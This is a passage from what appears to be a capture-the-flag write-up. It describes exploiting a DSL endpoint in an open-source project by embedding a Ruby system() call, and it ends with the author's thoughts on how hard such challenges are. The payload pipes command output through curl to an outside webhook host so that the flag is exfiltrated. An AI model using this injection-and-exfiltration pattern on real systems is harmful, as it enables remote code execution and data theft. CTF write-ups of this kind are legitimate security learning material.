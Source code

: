 In DSL it would look like this:

```dsl
!script ruby {
    system("/would you be so kind to provide me with a flag | curl -X POST -d @- https://our-webhook.site/")
}
```

3. Send the payload from `1.` step as `source` to `POST /dsl` endpoint.

4. The flag should appear on `https://our-webhook.site/`!

---

Overall it was very satisfying to find this vulnerability in an open source project, however I'm wondering whether such challenges are solvable within a short time limit on CTF contests - such projects as this one are usually very complex and have multiple completely irrelevant to the challenge entrypoints to be investigated, which is not the actual challenge difficulty, but the size of the attack surface to cover.
